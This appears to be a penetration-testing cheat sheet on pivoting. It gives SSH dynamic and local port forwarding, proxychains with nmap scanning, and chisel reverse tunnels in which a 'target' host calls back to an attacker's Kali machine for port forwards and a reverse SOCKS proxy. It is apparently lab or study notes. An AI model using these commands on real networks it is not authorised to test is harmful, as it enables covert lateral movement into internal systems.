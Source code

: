 ##### SSH Port Forwarding

Dynamic

```bash
ssh -N -D 127.0.0.1:8080 user@10.11.1.252
```

/etc/proxychains.conf

```bash
socks4 127.0.0.1 9050
```

proxychains and Nmap

```bash
proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
```

local port forwarding

```bash
ssh -N -L 0.0.0.0:445:<target ip>:445 j0hn@10.11.1.252
```

##### chisel

[jpillora/chisel](https://github.com/jpillora/chisel)

```bash
curl -sL https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz -o- | zcat > chisel
chmod +x ./chisel
```

Attacker

```bash
./chisel -p 25 --reverse
```

Target

```bash
# 127.0.0.1:8080 is in target, R:3000 is in host machine
./chisel client --max-retry-count 0 <kali ip>:25 R:3000:127.0.0.1:8080

./chisel client --max-retry-count 0 <kali ip>:25 R:3000:10.10.14.16:8080

./chisel client --max-retry-count 0 192.168.119.128:25 R:3306:10.5.5.11:3306
```

socks proxy

[Reverse SOCKS Proxy Using Chisel — The Easy Way \| by Vegard Wærp \| Medium](https://vegardw.medium.com/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29)

Target

```bash
./chisel client --max-retry-count 0 192.168.119.128:25 R:socks
```
